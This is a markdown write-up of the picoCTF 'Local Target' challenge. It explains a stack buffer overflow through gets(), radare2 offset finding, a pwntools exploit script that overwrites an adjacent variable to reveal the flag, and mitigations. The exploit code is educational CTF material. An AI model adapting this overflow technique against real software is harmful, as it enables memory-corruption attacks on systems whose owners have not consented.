

## 📜 PicoCTF Local Target

### 📁 Challenge Name

`Local Target – PicoCTF`

---

### 📄 Description

The binary asks for a string input and checks if a variable `num` is equal to `65`. If it is, it prints `You win!` and then displays the contents of `flag.txt`. However, `num` is initialized to `64`. So our goal is to **exploit a buffer overflow** to overwrite `num` with the value `65`.

---

### 🔍 Source Code Summary

```c
char input[16];
int num = 64;

gets(input); // Vulnerable: no bounds checking

if (num == 65) {
    fopen("flag.txt", "r");
    // read and print flag
}
```

* The vulnerability lies in `gets()`, which does not check the length of input, allowing us to overflow `input` and reach `num`.

---

### 🧠 Exploitation Plan

* `input` is a 16-byte buffer.
* `num` is an `int`, so we need to overwrite 4 bytes.
* The goal is to overflow the buffer to change `num` from `64` to `65`.

Through testing (or using r2), we determined:

```bash
[0x00401236]> db 0x0040129a
[0x00401236]> dc
Enter a string: AAABAACAADAAEAAFAAGAAHAAIAAJAA

num is 1245790537
INFO: hit breakpoint at: 0x40129a

[0x0040129a]> wopO 0x000041414a414149
24

```


* **Offset to `num` = 24 bytes**

So the final payload becomes:

```python
b'A' * 24 + p32(65)
```

---

### 🧪 Exploit Script

```python
from pwn import *

context.binary = './local-target'
context.log_level = 'info'

LOCAL = False  # Set to True for local testing

if LOCAL:
    p = process('./local-target')
else:
    p = remote('saturn.picoctf.net', 51350)

payload = b'A' * 24 + p32(65)

p.sendlineafter("Enter a string: ", payload)
print(p.recvall().decode())
```

---

### ✅ Result




---

### 🛡️ Mitigations

In a real-world binary, the following protections would stop this attack:

* **Stack Canaries**: would detect overwrites.
* **Bounds-checking functions** (`fgets`, `read`) instead of `gets`.
* **ASLR/PIE**: would make memory layout less predictable.
* **DEP/NX**: would prevent execution in certain memory segments (though not relevant here since we're not executing shellcode).

---

### Lessons Learned

* Always avoid unsafe functions like `gets()`.
* Buffer overflows can corrupt nearby variables (not just return addresses).
* Exploiting structure layout is as important as shellcode in CTFs.

---
